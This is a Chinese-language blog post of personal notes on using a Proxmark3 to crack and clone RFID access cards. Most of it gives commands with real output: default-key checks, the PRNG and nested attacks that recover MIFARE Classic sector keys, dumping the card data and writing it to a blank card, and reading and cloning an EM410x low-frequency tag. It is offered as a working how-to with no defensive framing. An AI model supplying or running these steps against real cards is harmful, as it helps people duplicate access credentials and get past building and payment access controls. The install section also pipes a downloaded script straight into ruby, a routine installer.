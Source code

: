 ```yaml
---
layout: post
category: 运维
---
```

![](/assets/img/15517861987812.jpg)

# 1 MAC链接设备

## 1.1 安装
 
```
#linux安装
/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"

#mac 安装
# 添加 proxmark3 仓库
brew tap proxmark/proxmark3
# 安装稳定版本 proxmark3 客户端
brew install proxmark3

```


## 1.2  链接设备
```
查看当前设备
➜  ~ ls /dev/cu*
/dev/cu.Bluetooth-Incoming-Port /dev/cu.usbmodem14201

#链接设备
➜  ~  proxmark3 /dev/cu.usbmodem14201


#测试电压
proxmark3> hw  tune

Measuring antenna characteristics, please wait.........
# LF antenna: 70.95 V @   125.00 kHz
# LF antenna: 53.62 V @   134.00 kHz
# LF optimal: 73.15 V @   122.45 kHz
# HF antenna: 30.27 V @    13.56 MHz
Displaying LF tuning graph. Divisor 89 is 134khz, 95 is 125khz.
```
# 2 卡片分类

![-w880](/assets/img//16004289353343.jpg)


![-w930](/assets/img//16004288903081.jpg)

# 3 破解
## 3.1 高频卡破解
```
#查看卡id
hf 14a reader



# 内置密码进行探测
proxmark3> hf mf chk *1 ? t

No key specified, trying default keys
chk default key[ 0] ffffffffffff
chk default key[ 1] 000000000000
chk default key[ 2] a0a1a2a3a4a5
chk default key[ 3] b0b1b2b3b4b5
...
chk default key[16] 533cb6c723f6
chk default key[17] 8fd0a4f256e9

To cancel this operation press the button on the proxmark...
--o
|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  000000000000  | 1 |  ffffffffffff  | 0 |
|001|  000000000000  | 1 |  ffffffffffff  | 0 |
|002|  000000000000  | 1 |  ffffffffffff  | 0 |
...
|013|  ffffffffffff  | 0 |  ffffffffffff  | 0 |
|014|  ffffffffffff  | 0 |  ffffffffffff  | 0 |
|015|  ffffffffffff  | 0 |  ffffffffffff  | 0 |
|---|----------------|---|----------------|---|
Found keys have been transferred to the emulator memory


1.通过 PRNG 漏洞攻击，无条件获得 0 扇区密匙
hf mf mifare

2.利用 MFOC 漏洞，用已知扇区密匙求所有扇区密匙
hf mf nested 1 0 A ffffffffffff d

Nested statistic:
Iterations count: 81
Time in nested: 62.543 (0.772 sec per key)
|---|----------------|---|----------------|---|
|sec|key A           |res|key B           |res|
|---|----------------|---|----------------|---|
|000|  757461626c65  | 1 |  ffffffffffff  | 1 |
|001|  757461626c65  | 1 |  ffffffffffff  | 1 |
|002|  757461626c65  | 1 |  ffffffffffff  | 1 |
|003|  757461626c65  | 1 |  ffffffffffff  | 1 |
|004|  757461626c65  | 1 |  ffffffffffff  | 1 |
|005|  757461626c65  | 1 |  ffffffffffff  | 1 |
|006|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|007|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|008|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|009|  474249439904  | 1 |  474249439904  | 1 |
|010|  474249439904  | 1 |  474249439904  | 1 |
|011|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|012|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|013|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|014|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|015|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
Printing keys to binary file dumpkeys.bin...


3.用破解出的密匙把卡片数据读出导入电脑(dumpdata.bin)
hf mf dump

4.转换 dumpdata.bin 文件到 xxxxx.eml 格式
script run dumptoemul.lua

5.写入到白卡
hf mf cload F075F95D

1.reset uid card
script run formatMifare


方法2

1.将dumpdata.bin写回卡片(密码不会改变)
hf mf restore

2.修改密码
hf mf wrbl 43 B FFFFFFFFFFFF 474249439904ff078000474249439904
```

![-w621](/assets/img//15517881985229.jpg)

## 3.2 低频卡破解


```
proxmark3> lf search
NOTE: some demods output possible binary
  if it finds something that looks like a tag
False Positives ARE possible


Checking for known tags:

EM410x pattern found:

EM TAG ID      : 1900B6E8C5

Possible de-scramble patterns
Unique TAG ID  : 98006D17A3
HoneyWell IdentKey {
DEZ 8          : 11987141
DEZ 10         : 0011987141
DEZ 5.5        : 00182.59589
DEZ 3.5A       : 025.59589
DEZ 3.5B       : 000.59589
DEZ 3.5C       : 182.59589
DEZ 14/IK2     : 00107386169541
DEZ 15/IK3     : 000652842178467
DEZ 20/ZK      : 09080000061301071003
}
Other          : 59589_182_11987141
Pattern Paxton : 432744133 [0x19CB26C5]
Pattern 1      : 7975761 [0x79B351]
Pattern Sebury : 59589 54 3598533  [0xE8C5 0x36 0x36E8C5]

Valid EM410x ID Found!
Waiting for a response from the proxmark...
You can cancel this operation by pressing the pm3 button
Command timed out


proxmark3> lf hid clone 1900B6E8C5
#db# DONE!
```


# 参考资料
RFID 低频卡安全分析  https://cloud.tencent.com/developer/article/1180090
Proxmark3 Easy破解门禁卡学习过程 https://lzy-wi.github.io/2018/07/26/proxmark3/
Proxmark3（PM3）入门使用 https://blog.2broear.com/notes/proxmark3-pm3-record_200508
使用pm3及变色龙获取加密卡信息写入小米手环NFC版 https://post.smzdm.com/p/777188/

使用PM3读取银行闪付卡  http://pm3.echo.cool/index.php/2019/02/23/%e4%bd%bf%e7%94%a8pm3%e8%af%bb%e5%8f%96%e9%93%b6%e8%a1%8c%e9%97%aa%e4%bb%98%e5%8d%a1/
博客： http://pm3.echo.cool/index.php/category/pm3/page/2/
在 macOS 上使用 Proxmark3 https://blog.meow.page/archives/proxmark3-on-mac/
低频卡t5577写入 https://blog.meow.page/archives/Clone-access-card-of-office/
在Linux系统上使用proxmark3 https://blog.meow.page/archives/use-proxmark3-on-linux/